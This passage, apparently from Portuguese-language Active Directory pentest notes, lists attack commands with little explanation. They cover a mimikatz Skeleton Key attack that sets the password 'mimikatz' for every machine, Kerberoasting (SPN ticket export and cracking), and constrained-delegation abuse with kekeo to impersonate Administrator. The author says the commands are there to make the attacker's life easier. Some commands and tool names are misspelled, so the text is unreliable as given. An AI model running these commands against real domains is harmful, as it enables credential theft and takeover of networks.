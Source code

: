 Assim pegamos o hash do Administrator, pra depois podermos fazer o pth e conseguir acesso às outras máquinas!

#### Skeleton Key

```powershell
# Só consegui fazer funcionar com o executável dele
./mimkatz.exe
privilege::debug
token::elevate
misc::skeleton
```

A senha de acesso pra todas as máquinas vai ser `administrator:mimikatz`

#### Kerberoast

Mais informações de como esse ataque funciona você encontra no meu blog [Kerberoast](https://0x4rt3mis.github.io/activedirectory/2020/12/20/Active-Directory-Kerberos/)

Agora conseguimos senhas em claro de usuários, podemos setar SPN também pra alguns usuários

```powershell
setspn -a MSSQLSvc/AB.DOMINIO.local USUARIO_COM_PRIVILEǴIOS
```

Caso já tenhamos usuários setados como SPN, esses são os comandos pra extrair o hash e depois quebrar

```powershell
# Primeiro passo é verificar quais contas estão com o SPN habilitado
Get-NetUser -SPN

# Agora devemos requisitar um ticket do SPN
Request-SPN Ticket MSSQLSvc/AB.DOMINIO.local

# Extrair o ticket
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Agora na kali extrair o hash dela pra quebrar com o john
kibi2john.py
```

#### Constrained Delegation

Mais informações de como esse ataque funciona você encontra no meu blog [Constrained](https://0x4rt3mis.github.io/activedirectory/2020/12/20/Active-Directory-Kerberos/)

Aqui vão somentes os comandos pra facilitar a vida do atacante

```powershell
# Importamos o PowerView_dev
Import-Module PowerView_dev.ps1

# Verificamos por máquinas com o Constrained Delegation habilitado, vai aparecer usuários com essa permissão, caso tenha
Get-DomainUser -TrustedToAuth

# Com o hash do usuário (extraimos com o mimikatz) e o rubeus, requisitamos os tickets necessários, TGT
./kekeo.exe
tgt::ask /user:USER_COM_CONSTRAINED /domain:AB.DOMINIO.local /ntlm:HASH_NTLM_DO_USER_COM_CONSTRAINED /ticket:QUALQUER_COISA.kirbi

# Agora solicitamos o TGS
./kekeo.exe
tgs::s4u /tgt:QUALQUER_COISA.kirbi /user:Administrator@AB.DOMINIO.local /service:time/MAQUINA.AB.DOMINIO.local|cifs/MAQUINA.AB.DOMINIO.local

# Agora com o mimikatz injetamos o ticket na seção
```